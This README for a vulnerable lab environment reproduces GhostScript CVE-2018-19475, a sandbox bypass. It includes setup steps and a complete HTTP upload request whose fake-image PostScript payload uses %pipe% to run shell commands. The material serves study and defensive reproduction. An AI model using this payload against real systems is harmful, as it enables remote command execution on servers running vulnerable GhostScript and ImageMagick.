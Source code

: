 # GhostScript Sandbox Bypass Command Execution (CVE-2018-19475)

[中文版本(Chinese version)](README.zh-cn.md)

GhostScript is a suite of software based on an interpreter for Adobe Systems' PostScript and PDF page description languages. It is widely used by many image processing libraries.

In late 2018, Man Yue Mo from the Semmle Security Research Team published a variant of [CVE-2018-16509](../CVE-2018-16509), designated as CVE-2018-19475. This vulnerability allows attackers to bypass GhostScript's sandbox through a malicious image and execute arbitrary commands in gs versions prior to 9.26.

References:

- <https://blog.semmle.com/ghostscript-CVE-2018-19475/>
- <https://bugs.ghostscript.com/show_bug.cgi?id=700153>

## Environment Setup

Execute the following command to start a vulnerable environment (including GhostScript 9.25 and ImageMagick 7.0.8-20):

```
docker compose up -d
```

After the server is started, visit `http://your-ip:8080` to see an upload component.

## Vulnerability Reproduction

Upload the POC as an image to execute the command `id > /tmp/success && cat /tmp/success`:

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"

%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--
```

As you can see, the command will be successfully executed.

![](1.png)

In real-world scenarios, you may need to use out-of-band techniques to detect the vulnerability as direct output may not be available.
